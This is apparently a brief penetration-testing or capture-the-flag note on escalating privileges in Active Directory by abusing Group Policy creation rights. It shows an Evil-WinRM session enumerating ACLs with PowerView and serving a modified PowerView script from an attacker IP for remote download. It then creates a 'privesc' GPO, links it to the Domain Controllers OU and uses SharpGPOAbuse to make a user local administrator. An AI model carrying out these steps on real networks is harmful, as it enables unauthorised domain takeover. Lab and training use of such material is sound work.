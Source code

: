 # GPO Create Premission

```powershell
*Evil-WinRM* PS C:\mane1> Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=MANE,DC=DC" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN=Policies,CN=System,DC=MANE,DC=DC
ActiveDirectoryRights : CreateChild
SecurityIdentifier    : S-1-5-21-3174020193-2022906219-3623556448-1104
```

and see who user can add: 

```powershell
$SID = New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-3174020193-2022906219-3623556448-1104")
$objUser = $SID.Translate([System.Security.Principal.NTAccount])
$objUser.Value
```

## Script Check

use: https://github.com/Leo4j/Invoke-ADEnum/tree/main?tab=readme-ov-file

```powershell
wget https://raw.githubusercontent.com/Leo4j/Tools/main/PowerView_Mod.ps1 
python3 -m http.server 2222

Invoke-ADEnum -CustomURL http://10.10.16.2:2222/PowerView_Mod.ps1 -GPOsRights 
```

## Create GPO

```powershell

New-GPO -Name privesc -Comment "Privilege Escalation"
New-GPLink -Name privesc -Target "OU=Domain Controllers,DC=mane,DC=dc" -LinkEnabled Yes
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount mane --gponame privesc
gpupdate /force
```